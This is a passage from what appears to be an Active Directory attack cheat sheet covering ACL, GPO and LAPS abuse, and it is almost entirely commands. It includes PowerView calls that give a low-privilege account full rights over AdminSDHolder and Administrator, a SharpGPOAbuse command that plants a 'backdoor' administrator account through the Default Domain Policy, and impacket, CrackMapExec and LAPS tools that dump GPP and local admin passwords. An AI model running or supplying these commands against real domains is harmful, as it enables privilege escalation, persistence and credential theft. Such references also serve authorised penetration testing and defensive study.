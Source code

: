 #### Windows:

```powershell
# PowerView Advanced ACL
Get-ObjectAcl -SamAccountName Administrator -ResolveGUIDs | Where-Object {$_.IdentityReference -eq "DOMAIN\lowpriv"}
Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName lowpriv -Rights All

# Set-ADACL
Set-ADACL -SamAccountName Administrator -Right GenericAll -Principal lowpriv
```

### 📋 Advanced GPO Attacks

#### GPO Enumeration & Abuse

```bash
# Linux - impacket
GetGPPPassword.py -xmlfile Groups.xml
findDelegation.py domain.com/lowpriv:password -dc-ip DC_IP

# Windows - PowerView
Get-DomainGPO -ComputerIdentity TARGET_COMPUTER | select displayname,gpcpath
Get-DomainGPOLocalGroup | Where-Object {$_.GroupName -like "*admin*"}
Get-DomainGPOComputerLocalGroupMapping | Where-Object {$_.ComputerName -eq "TARGET"}

# SharpGPOAbuse
.\SharpGPOAbuse.exe --AddComputerScript --ScriptName startup.bat --ScriptContents "net user backdoor Password123! /add && net localgroup administrators backdoor /add" --GPOName "Default Domain Policy"
```

### 💊 LAPS Bypass & Abuse

#### Linux:

```bash
# LAPSDumper
python3 laps.py -u lowpriv -p password -d domain.com -dc-ip DC_IP
python3 laps.py -u lowpriv -p password -d domain.com -dc-ip DC_IP -l

# CrackMapExec LAPS
crackmapexec ldap DC_IP -u lowpriv -p password --laps
```

#### Windows:

```powershell
# PowerView LAPS
Get-DomainComputer | Where-Object {$_."ms-mcs-admpwdexpirationtime" -ne $null} | select name,ms-mcs-admpwd,ms-mcs-admpwdexpirationtime

# LAPSToolkit
Get-LAPSComputers
Find-LAPSDelegatedGroups
Find-AdmPwdExtendedRights
```
